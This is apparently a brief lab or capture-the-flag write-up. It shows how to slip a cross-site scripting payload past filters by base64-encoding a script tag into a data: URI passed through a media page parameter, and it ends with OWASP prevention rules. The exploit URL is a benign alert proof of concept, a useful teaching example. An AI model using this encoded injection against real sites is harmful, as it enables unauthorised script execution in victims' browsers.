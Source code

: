## XSS using code encoding

[https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

We may encode our script in base64 and place it in META tag. This way we get rid of alert() totally. More information about this method can be found in RFC 2397

## Exploit

Encode `<script>alert('xss')</script>` to base64 `PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=`

Go to `<server>/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=`


### How to Prevent

* Never Insert Untrusted Data Except in Allowed Locations
* HTML Escape Before Inserting Untrusted Data into HTML Element Content
* Attribute Escape Before Inserting Untrusted Data into HTML Common Attributes
* JavaScript Escape Before Inserting Untrusted Data into JavaScript Data Values
* HTML escape JSON values in an HTML context and read the data with JSON.parse
* CSS Escape And Strictly Validate Before Inserting Untrusted Data into HTML Style Property Values
* URL Escape Before Inserting Untrusted Data into HTML URL Parameter Values
* Sanitize HTML Markup with a Library Designed for the Job
* Prevent DOM-based XSS